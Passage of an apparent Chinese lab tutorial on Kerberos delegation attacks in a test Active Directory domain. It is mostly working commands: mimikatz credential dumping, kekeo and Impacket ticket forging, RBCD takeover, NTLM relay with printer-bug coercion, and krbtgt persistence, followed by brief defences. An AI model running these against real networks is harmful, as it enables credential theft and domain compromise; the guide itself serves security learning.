mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

python getST.py -dc-ip 192.168.1.10 -spn CIFS/DC.town.domain -impersonate administrator town.domain/WIN10-TEST$ -hashes :8f5063b5a7f1d026fdf71af771d7ee86

set KRB5CCNAME=administrator.ccache 
python wmiexec.py -k town.domain/administrator@DC.town.domain -no-pass -dc-ip 192.168.1.10
python psexec.py -k town.domain/administrator@DC.town.domain -no-pass -dc-ip 192.168.1.10
```


#### 使用机器账户hash方式三

利用条件：

1. 需要Administrator权限
2. 目标机器账户配置了约束性委派

```
# mimikatz获取机器账户NTLM Hash值
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# 请求票据
kekeo.exe "tgt::ask /user:WIN10-TEST$ /domain:town.domain /NTLM:8f5063b5a7f1d026fdf71af771d7ee86" "exit"

# 申请administrator权限的票据
kekeo.exe "tgs::s4u /tgt:TGT_WIN10-TEST$@TOWN.DOMAIN_krbtgt~town.domain@TOWN.DOMAIN.kirbi /user:Administrator@town.domain /service:cifs/DC.town.domain" "exit"

# mimikatz
mimikatz.exe "kerberos::ptt TGS_Administrator@town.domain@TOWN.DOMAIN_cifs~DC.town.domain@TOWN.DOMAIN.kirbi" "exit"

# 访问
dir \\DC.town.domain\C$
```


导入票据


#### 使用服务账户  

利用条件：

1. 服务账户设置了非约束性委派
2. 已知服务账户的密码口令信息

在得到了配置约束性委派的服务账户的时候，此账户密码为DawnT0wn@dele，可以不需要administrator权限

```
# 构造服务账户delegateuser的票据
kekeo.exe "tgt::ask /user:delegateuser /domain:town.domain /password:DawnT0wn@dele /ticket:delegateuser.kirbi" "exit"

# 利用刚才伪造的delegateuser票据，向域服务器申请CIFS服务票据
kekeo.exe "Tgs::s4u /tgt:TGT_delegateuser@TOWN.DOMAIN_krbtgt~town.domain@TOWN.DOMAIN.kirbi /user:administrator@town.domain /service:cifs/DC.town.domain" "exit"

# 使用mimikatz将该票据注入当前的会话中，
mimikatz.exe "kerberos::ptt TGS_administrator@town.domain@TOWN.DOMAIN_cifs~DC.town.domain@TOWN.DOMAIN.kirbi" "exit"

# 访问目标共享盘
dir \\DC.town.domain\C$
```


导入cifs票据


## 基于资源的约束委派

> 微软在Windows Server 2012 中新引入基于资源的约束性委派（Resource Based Constrained Delegation, RBCD），RBCD不需要通过具备SeEnableDelegationPrivilege权限的域管理员进行修改，而是将**设置属性的权限给了服务资源本身**。
>
> 配置了RBCD的账户属性有如下变化：
>
> - msDS-AllowedToActOnBehalfOfOtherIdentity属性指向委派账户
>
> 可以将基于资源的约束性委派理解为传统的约束性委派的反向过程。以 Service 1 和 Service 2 两个服务为例，传统的约束性委派需要在 Service 1 上设置 `msDS-AllowedToDelegateTo` 属性，以指定对 Service 2 上的哪一个服务进行委派。而在基于资源的约束性委派中，需要在 Service 2 上将 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性值设为 Service 1 的 SID，以允许 Service 1 对 Service 2 上的服务进行委派。
>
> 此外，在传统的约束性委派中，通过 S4u2self 申请到的 ST 票据一定是可转发的，如果不可转发，则后续的 S4U2Proxy 阶段将失败。但是在基于资源的约束性委派中，不可转发的 ST 票据仍然可以通过 S4U2Proxy 阶段对其他服务进行委派认证。

利用条件：

1. 具有对主机修改`msDS-AllowedToActOnBehalfOfOtherIdentity`属性的权限
2. 可以创建机器账户（或已知机器账户）

也就是说，需要对主机具有写权限来修改msDS-AllowedToActOnBehalfOfOtherIdentity，并且能够创建机器账户，或者是已经有了对应的机器账户

如下三个具有修改msDS-AllowedToActOnBehalfOfOtherIdentity的权限

1. 将该主机加入域的用户账户
   账户中有一个`mSDS-CreatorSID`属性，用于标记加入域时使用的用户账户SID值，进一步就可以知道一些具有加入域权限的用户账户了！
2. Account Operator组成员
3. 该主机的机器账户

对于一般域成员，由`msDS-MachineAccountQuota`属性决定，默认可以创建10个机器账户

综上，我们需要一个能够对机器有写权限的域内用户（可以创建机器用户），然后就可以拿下对应机器的权限

基于资源的约束委派一般不是拿DC的权限，而且域内机器的权限

### 环境搭建

将之前设置的所有委派全部去除，将用域用户将机器加入域即可，这样目标机器就存在应该`mSDS-CreatorSID`属性，用于标记加入域时使用的用户账户SID值指向我们用于加入域的账户 

### 探测方式

找到可修改`msDS-AllowedToActOnBehalfOfOtherIdentity`的用户，这样就找到了可以修改委派权限的用户

已知机器账户，找到使其加入域中的用户账户，这个用户账户就具备修改`msDS-AllowedToActOnBehalfOfOtherIdentity`的权限

```shell
# 使用adfind.exe查找机器账户的mS-DS-CreatorSID属性
AdFind.exe -h 192.168.1.10 -u delegateuser -up DawnT0wn@dele -b "DC=town,DC=domain" -f "objectClass=computer" mS-DS-CreatorSID

# 使用Powershell反查SID对应的用户
powershell $objSID = New-Object System.Security.Principal.SecurityIdentifier S-1-5-21-3014572423-1275547571-3261963242-1108;$objUser = $objSID.Translate([System.Security.Principal.NTAccount]);$objUser.Value
```


另外还有一种正向查找的方式，先查询用户账户的SID，再查询通过这个用户加入域的机器，个人认为不如反向查找精准，可能没有通过该账户加入域的机器

```shell
# 查用户账户SID
whoami /all

# 使用PowerView查经由该用户加入域内的机器账户(主机)
# 需要具备GeneriCall或WriteProperty等修改权限
Import-Module ./PowerView.ps1
Get-DomainObjectAcl | ?{$_.SecurityIdentifier -match "S-1-5-21-3014572423-1275547571-3261963242-1108"} | select objectdn,activedirectoryrights
```


### 通过加入域的用户提权拿下主机

在攻击过程中，如果获取到了`win10test`用户的权限 就可以用这个用户的权限进行本地提权：

- 利用`win10test`域用户创建一个机器账户（每个域用户默认可以创建`10`个）
- 然后修改`WIN10-TEST`的`msDS-AllowedToActOnBehalfOfOtherIdentity`为新创建的机器用户的`sid`
- 然后利用机器账户申请票据进行提权

总体的思路就是创建一个机器账户，配置委派属性，用这个机器账户申请票据提权到administrator

添加机器账户有几种方式：

```
# 使用addcpmputer创建机器账户
python addcomputer.py town.domain/win10test:DawnT0wn@dele -method LDAPS -computer-name test -computer-pass Passw0rd -dc-ip 192.168.1.10

# 使用bloodyAD工具创建机器账户
python bloodyAD.py -d town.domain -u win10test -p 'DawnT0wn@dele' --host 192.168.1.10 addComputer test 'Passw0rd'

# 使用PowerMad工具创建机器账户
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount test -Password $(ConvertTo-SecureString "Passw0rd" -AsPlainText -Force)

# 查询是否添加成功
net group "domain computers" /domain
```


```
# 使用PowerView工具查询机器账户的sid
Set-ExecutionPolicy Bypass -Scope Process	# 如果import报错先执行这个
Import-Module .\PowerView.ps1
Get-NetComputer test -Properties objectsid
```


得到了机器账户的SID：`S-1-5-21-3014572423-1275547571-3261963242-1112`

```
# 修改服务资源的委派属性, 即msDS-AllowedToActOnBehalfOfOtherIdentity属性
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerView.ps1
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3014572423-1275547571-3261963242-1112)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer WIN10-TEST| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

# 查询属性(后一条命令使用到了ActiveDirectory模块, 域控默认带)
Get-DomainComputer WIN10-TEST -Properties msds-allowedtoactonbehalfofotheridentity

# 清除msds-allowedtoactonbehalfofotheridentity属性的值
Set-DomainObject WIN10-TEST -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose		# 清除时再执行
```


再创建机器账户后也可以用rbcd.py

```
python .\rbcd.py -delegate-to WIN10-TEST$ -delegate-from test$ -dc-ip 192.168.1.10 town.domain/win10test:DawnT0wn@dele -action write
```

通过win10test用户和rbcd.py脚本给WIN10-TEST设置属性。将WIN10-TEST$的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性指向test$

申请服务票据提权

```
# 使用getST.py申请票据
python getST.py town.domain/test$:Passw0rd -spn cifs/WIN10-TEST.town.domain -impersonate administrator -dc-ip 192.168.1.10

# 直接登录, 还是需要将域名加入到hosts, 不然解析不到, psexec上去是SYSTEM权限
set KRB5CCNAME=administrator.ccache 
python wmiexec.py -k town.domain/administrator@WIN10-TEST.town.domain -no-pass

或者
set KRB5CCNAME=administrator.ccache 
python psexec.py -k town.domain/administrator@WIN10-TEST.town.domain -no-pass
```


利用psexec登录是system权限



这样就可以通过基于资源的约束委派提升在对应机器的权限了

为了进行后续实验，这里把WIN10-TEST的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性去除

```
# 清除msds-allowedtoactonbehalfofotheridentity属性的值
Set-DomainObject WIN10-TEST -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose
```


### 已知Account Operators组用户拿下主机

`Account Operators`组成员可以修改域内任意主机的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性

利用条件：

- 获取到属于`Account Operators`组的用户账户
- 可以创建机器账户

先将`delegateuser`域用户设置为`Account Operators`组用户


查询`Acount Operators`组成员

```
adfind.exe -h 192.168.1.10:389 -s subtree -b CN="Account Operators",CN=Builtin,DC=town,DC=domain member
```


利用delegateuser创建机器账户test2

```
python addcomputer.py town.domain/delegateuser:DawnT0wn@dele -method LDAPS -computer-name test2 -computer-pass Passw0rd -dc-ip 192.168.1.10

# 查询是否添加成功
net group "domain computers" /domain
```



后面的操作和前面就一样了，用powerview查询test2的sid，然后设置WIN10-TEST的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性，申请服务票据

```
# 查询test2的sid
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerView.ps1
Get-NetComputer test2 -Properties objectsid

# 修改服务资源的委派属性, 即msDS-AllowedToActOnBehalfOfOtherIdentity属性
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3014572423-1275547571-3261963242-1113)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer WIN10-TEST| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

# 查询属性(后一条命令使用到了ActiveDirectory模块, 域控默认带)
Get-DomainComputer WIN10-TEST -Properties msds-allowedtoactonbehalfofotheridentity
```


```
# 使用getST.py申请票据
python getST.py town.domain/test2$:Passw0rd -spn cifs/WIN10-TEST.town.domain -impersonate administrator -dc-ip 192.168.1.10

# 直接登录, 还是需要将域名加入到hosts, 不然解析不到, psexec上去是SYSTEM权限
set KRB5CCNAME=administrator.ccache 
python wmiexec.py -k town.domain/administrator@WIN10-TEST.town.domain -no-pass

或者
set KRB5CCNAME=administrator.ccache 
python psexec.py -k town.domain/administrator@WIN10-TEST.town.domain -no-pass
```


```
# 清除msds-allowedtoactonbehalfofotheridentity属性的值
Set-DomainObject WIN10-TEST -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose
```


### 结合NTLM Relay接管域控

绕过NTLM MIC校验+打印机漏洞（强制认证）+NTLM Relay+基于资源的约束性委派组合攻击

利用条件：

1. 能创建机器账户
2. 目标开启打印机服务

NTLM Relay攻击的前提是SMB认证获取的机器没有开启SMB签名，CVE-2019-1040漏洞在这里的作用是绕过了mic检验，因为打印机触发的是SMB协议 域控是默认带有SMB签名， CVE-2019-1040漏洞在这里就刚好绕过了mic的检验，完成NTLM Relay攻击。

为了区分，再创建一个新的机器账户

```
python addcomputer.py town.domain/delegateuser:DawnT0wn@dele -method LDAPS -computer-name test3 -computer-pass Passw0rd -dc-ip 192.168.1.10

# 查询是否添加成功
net group "domain computers" /domain
```


用impacket的ntlmrelayx工具进行监听，因为路由器的原因，我的虚拟机和本机看起来中一个C段，所以我把域的ip段改为了10.10.10.10/24，域控的ip为10.10.10.10，win10的ip为10.10.10.30，所以ip看起来可能会与之前不同，下面的命令需要在linux的机器上运行，先做一个代理出来

```shell
# 进行监听
python3 ntlmrelayx.py -t ldap://10.10.10.10 -smb2support --remove-mic --delegate-access --escalate-user test3\$
```

打印机漏洞执行强制认证，mac的ip为192.168.1.5

https://github.com/dirkjanm/krbrelayx

```
python3 printerbug.py town.domain/delegateuser:DawnT0wn@dele@10.10.10.30 192.168.1.5
```

这里攻击域内主机是因为域控发起的验证不能中继回自身（相关细节见MS08-068），故这里对域内主机进行强制验证。

一些情况下可以用PetitPotam（都是用于强制认证），具体可以参考春秋云镜 spoofing

这里不知道为什么我认证失败了，如果认证成功后，后面就是申请票据，这种方式可以直接接管域控

```
# 使用getST.py申请票据
python getST.py town.domain/test3$:Passw0rd -spn cifs/WIN10-TEST.town.domain -impersonate administrator -dc-ip 10.10.10.10

# 直接登录, 还是需要将域名加入到hosts, 不然解析不到, psexec上去是SYSTEM权限
set KRB5CCNAME=administrator.ccache 
python wmiexec.py -k town.domain/administrator@DC.town.domain -no-pass

或者
set KRB5CCNAME=administrator.ccache 
python psexec.py -k town.domain/administrator@DC.town.domain -no-pass
```

可以参考：https://forum.butian.net/share/1591

### krbtgt用户委派

在获取到域控权限后，可以对krbtgt用户设置委派属性，以实现维持权限的目的，类似与一个变种的黄金票据

利用条件：

- 获取域控权限

创建机器用户，直接用delegateuser创建即可

```
python addcomputer.py town.domain/delegateuser:DawnT0wn@dele -method LDAPS -computer-name test4 -computer-pass Passw0rd -dc-ip 10.10.10.10
```


域控配置`krbtgt`用户的委派属性

```
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount test4$
Get-ADUser krbtgt -Properties PrincipalsAllowedToDelegateToAccount
```


```
# 使用getST.py申请票据
python3 getST.py town.domain/test4$:Passw0rd -spn krbtgt -impersonate administrator -dc-ip 10.10.10.10

KRB5CCNAME=administrator.ccache python3 smbexec.py -k administrator@DC.town.domain -no-pass -dc-ip 10.10.10.10
```


# 防御措施

对于高权限用户，设置为敏感用户，不能被委派；


1. 若要设置委派，不设置非约束性委派而是设置约束性委派；
2. 可以将敏感用户添加至`Protected User`组中（`Windows Server 2012 R2`及以上系统），该组用户不允许被委派；
3. 针对`Kerberos Bronze Bit`攻击（`CVE-2020-1704`），打补丁`KB4598347`。


参考链接：

https://xz.aliyun.com/t/7517#toc-6

[域委派利用 | MYZXCG](https://myzxcg.com/2021/10/域委派利用/)

https://forum.butian.net/share/1591